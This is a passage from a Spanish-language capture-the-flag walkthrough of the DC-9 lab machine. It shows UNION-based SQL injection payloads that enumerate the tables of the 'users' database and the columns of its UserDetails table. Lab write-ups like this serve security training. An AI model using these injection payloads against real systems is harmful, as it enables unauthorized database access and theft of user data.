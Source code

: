 ![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%202.png)

Vemos que existen las bases de datos Staff y users.

El siguiente paso que realizo es listar las tablas que contiene la base de datos users

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%203.png)

Y veo que existe la tabla UserDetails, después paso a listar las columnas de esta tabla.

```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='UserDetails'-- -

```
